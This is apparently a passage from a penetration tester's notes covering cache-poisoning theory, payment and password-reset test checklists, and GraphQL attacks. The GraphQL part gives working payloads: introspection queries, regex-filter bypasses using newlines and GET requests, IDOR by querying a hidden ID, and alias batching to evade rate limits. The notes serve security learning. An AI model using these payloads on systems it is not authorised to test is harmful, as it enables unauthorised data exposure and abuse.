### Cache Poisoning DoS

#### This one is more theory than practice

#### For this to be exploitable, what we'd need to happen is: a system's frontend cache forwards the hop-by-hop header list instead of consuming it, an intermediate proxy processes the hop-by-hop list and removes a header either it, another proxy further in the chain, or the backend app requires, and the act of removing such a header results in an undesirable response such as a HTTP 400 or 501 being returned by something after the web cache. Like the above research covers, this might result in the web cache in front of the app choosing to accept this undesirable response as the copy to serve other users, and hence we have cache poisoning denial of service.

## In Server side requests(by design or forged)

#### this one is a little out there but bear with me. some Systems give users the ability to define requests that will be performed by the server side , such as when adding webhooks or similar. while it is not normal for if you're able to add custom headers, you could try adding a `Connection` header and seeing if it is accepted along with your hop-by-hop headers.

#### Otherwise, if you have an exploitable SSRF vulnerability in a system, adding this technique could reveal more information or help make the SSRF more impactful. You would likely need the ability to inject headers along with the SSRF though, which is fairly rare.


# <font color="red">psp</font>(business logic)


### psp process :

#### <font color="red">Before payment process</font>:
- price manipulation
	- Raw price
	- Encrypted price

- Quantity param manipulation
- Race condition
	- coupon code
- Logic Flow Error


#### <font color="red">after payment process (callback)</font>

- Race condition
- IDOR
- XSS
- Logic Flow Error

Note : use logger++ in your pentesting it helps you alot 





# <font color="red"> Reset password</font>





### in this functionality of the web app if the errors specify the existence of a username or email we can perform user enumeration test.


some application do have questions in order to send an email to change password . allways keep in your mind that what would happend if you change request method or what would happen if you send null as input for these questions 


##### sometimes the reset password functionality may have some issues for example imagine after specifying the username an email may have send to the email of the owner of that username and inside the email it has a link for reseting the password for the user and the link may be guessable.
##### by testing multiple times you can tell if the links are guessable or not .

##### by guessing the path and testing the application you could sometimes place yourself as admin.


# <font color="red">JSONP (xss inclusion)</font>


# <font color="red">GraphQL API vulnerabilities</font>


## finding GraphQL endpoints

#### universal queries 

if you send `query{__typename}` to any graphql  endpoint, it will include the string `{"data": {"__typename": "query"}}` .   this is know as a universal query, and is a useful tool in probing whether a URL corresponds to a GraphQL service .
```
{"query":"{__typename}"}
```
#### common endpoint names

graphQL services often use similar endpoint suffixes. you should look to send universal queries to the following locations:

- `/graphql`
- `/api`
- `/api/graphql`
- `/graphql/api`
- `/graphql/graphql`

Note: you could try to append `/v1` to the path

#### request methods

It is best practice for production GraphQL endpoints to only accept POST requests that have a content-type of `application/json`, as this helps to protect against CSRF vulns.
However , some endpoints may accept alternative methods, such as GET requests or POST requests that use a content-type of `x-www-form-urlencoded `. 

Note: so if you can't find the Graphql endpoints by sending POST requests to common endpoints, try resending the universal query using other verbs.


## Exploiting unsanitized arguments 


if the API uses arguments to access objects directly, it may be vulnerable to access control vulns( e.g IDOR ). 

For example :

```
query {
	products{
		id
		name
		listed
	}

}

```

the product list returns :

```
{
	"data":{
		"products":[
			{
				"id": 1,
				"name": "Product 1",
				"listed": true
			},
			
			{
				"id": 2,
				"name": "product 2",
				"listed": true
			},
			
			{
				"id": 4,
				"name": "product 4",
				"listed": true
				}
		]
	}


}
```

- Products assigned sequential
- Product ID 3 is missing , possibly because it has been delisted.

By querying the ID of the missing product, we can get its detail, even though it is not listed on the shop and was not returned by the original product query.

```
# query to get missing product 
query {
	product(id: 3){
		id
		name
		listed
	}
}
```

```
# missing product response 
{
	"data": {
		"product"{
			"id": 3, 
			"name": "product 3",
			"listed": no
		}
	}


}

```

## Discovering schema information

the best way to do this is to use introspection queries. Introspection is a built in GraphQL function that enables you to query a server for information about schema 


to use introspection to discover schema information, query the `__schema` field. 

#### probing for introspection 

it is best practice for introspection to be disabled in production environment, but this advice is not always followed 

 Introspection probe request :

```

{
	"query": "{__schema{queryType{name}}}"
}
```

the next step is to run a full introspection query against the endpoint
 
Full introspection query:
add this to the GraphQL bar of repeater :

```

    query IntrospectionQuery {
        __schema {
            queryType {
                name
            }
            mutationType {
                name
            }
            subscriptionType {
                name
            }
            types {
             ...FullType
            }
            directives {
                name
                description
                args {
                    ...InputValue
            }
            onOperation  #Often needs to be deleted to run query
            onFragment   #Often needs to be deleted to run query
            onField      #Often needs to be deleted to run query
            }
        }
    }

    fragment FullType on __Type {
        kind
        name
        description
        fields(includeDeprecated: true) {
            name
            description
            args {
                ...InputValue
            }
            type {
                ...TypeRef
            }
            isDeprecated
            deprecationReason
        }
        inputFields {
            ...InputValue
        }
        interfaces {
            ...TypeRef
        }
        enumValues(includeDeprecated: true) {
            name
            description
            isDeprecated
            deprecationReason
        }
        possibleTypes {
            ...TypeRef
        }
    }

    fragment InputValue on __InputValue {
        name
        description
        type {
            ...TypeRef
        }
        defaultValue
    }

    fragment TypeRef on __Type {
        kind
        name
        ofType {
            kind
            name
            ofType {
                kind
                name
                ofType {
                    kind
                    name
                }
            }
        }
    }
```

```
{"query":"\r\n    query IntrospectionQuery {\r\n        __schema {\r\n            queryType {\r\n                name\r\n            }\r\n            mutationType {\r\n                name\r\n            }\r\n            subscriptionType {\r\n                name\r\n            }\r\n            types {\r\n             ...FullType\r\n            }\r\n            directives {\r\n                name\r\n                description\r\n                args {\r\n                    ...InputValue\r\n            }\r\n\r\n            }\r\n        }\r\n    }\r\n\r\n    fragment FullType on __Type {\r\n        kind\r\n        name\r\n        description\r\n        fields(includeDeprecated: true) {\r\n            name\r\n            description\r\n            args {\r\n                ...InputValue\r\n            }\r\n            type {\r\n                ...TypeRef\r\n            }\r\n            isDeprecated\r\n            deprecationReason\r\n        }\r\n        inputFields {\r\n            ...InputValue\r\n        }\r\n        interfaces {\r\n            ...TypeRef\r\n        }\r\n        enumValues(includeDeprecated: true) {\r\n            name\r\n            description\r\n            isDeprecated\r\n            deprecationReason\r\n        }\r\n        possibleTypes {\r\n            ...TypeRef\r\n        }\r\n    }\r\n\r\n    fragment InputValue on __InputValue {\r\n        name\r\n        description\r\n        type {\r\n            ...TypeRef\r\n        }\r\n        defaultValue\r\n    }\r\n\r\n    fragment TypeRef on __Type {\r\n        kind\r\n        name\r\n        ofType {\r\n            kind\r\n            name\r\n            ofType {\r\n                kind\r\n                name\r\n                ofType {\r\n                    kind\r\n                    name\r\n                }\r\n            }\r\n        }\r\n    }"}
```


NOTE : you can copy the result of the above query and paste it to a GraphQL visualizer .
<font color="red">Note</font> : using the tool InQL we can  
### Suggestions

Even if introspection is entirely disabled, you can sometimes use suggestions to glean informations to glean information on an API structure.

Suggestions are a feature of the Apollo GraphQL platform in which the server can suggest query amendments in error messages. These are generally used where a query is slightly incorrect but still recognizable(for example, `there is no entry for 'productInfo'. Did you mean 'ProductInformation' instead?`)

Note: there is a tool called clairvoyance which uses suggestions to automatically recover all or part of  a GraphQL schema.
https://github.com/nikitastupin/clairvoyance

## Bypassing GraphQL introspection defenses 

if you cannot get introspection queries to run for the API you are testing, try inserting a special character after the `__schema` keyword.

NOTE: When developers disable introspection, they could use a regex to exclude the `__schema` keyword in queries. You should try characters like spaces, new lines and commas, as they are ignored by GraphQL but not by flawed regex. 

if the developer has only excluded `__schema{`, then the below introspection query would not be excluded .

```
{ "query": "query{__schema {queryType{name}}}" }
```

but this may be :
```
{
	"query": "{__schema
{queryType{name}}}"
 }
```

<font color="red">NOTE </font>If this doesn't work, try running the probe over an alternative request method, as introspection may only be disabled over POST. Try a GET request, or a POST request with a content-type of `x-www-form-urlencoded`.


an introspection probe sent via GET, with URL-encoded parameters:

```
GET /graphql?query=query%7B__schema%0A%7BqueryType%7Bname%7D%7D%7D
```

## Bypassing ratelimiting using alliases
The simplified example below shows a series of aliased queries checking whether store discount codes are valid. This operation could potentially bypass rate limiting as it is a single HTTP request, even though it could potentially be used to check a vast number of discount codes at once

 Requests with aliases queries:
```
query isValidDiscount($code: Int) { isvalidDiscount(code:$code){ valid } isValidDiscount2:isValidDiscount(code:$code){ valid } isValidDiscount3:isValidDiscount(code:$code){ valid } }

```
